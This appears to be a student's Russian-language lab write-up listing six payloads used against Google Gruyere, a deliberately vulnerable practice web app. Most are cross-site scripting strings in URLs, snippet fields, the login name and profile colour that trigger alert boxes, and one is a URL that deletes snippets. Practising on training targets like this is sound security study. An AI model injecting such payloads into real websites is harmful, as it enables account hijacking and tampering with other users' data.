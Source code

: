 # Ля ля е коко джомбо

## Payload 1

`https://google-gruyere.appspot.com/481645647050420153731399784541443008317/%3Cbody%20onload=alert(/lollololo/.source)%3E` <br>
Вставил `<body onload=alert(/XSS/.source)>` в url, вылез алерт с текстом "lollololo"

## Payload 2

`(1') <a ONMOUSEOVER="alert(1)" href="#">read this!</a>`<br>
Вставил в поле добавления сниппета, при наведении вылез алерт "1"

## Payload 3

`deletesnippet?index=0`<br>
Вставил в url и кароче "index=номер" обозначает, какой сниппет удалить

## Payload 4

`https://google-gruyere.appspot.com/465348762713896480568835336007440892404/background-image:%20url(%22data:image/jpg;base64,%3C//style%3E%3Csvg/onload=alert(document.domain)%3E%22);%20background-color:%20#cccccc;`

Вставил `background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>"); background-color: #cccccc;` в url и вылезла 404 ошибка с алертом

## Payload 5

Убрал `maxleght=16` у поля логин при регистраци, зарегал юзера с логином `<script>alert('попа')</script>` и вошёл в аккаунт. Вылез этот алерт.

## Payload 6

Вставил `red'onmouseover='alert(1)` в цвет в профиле, алерт выводится при наведении мышки

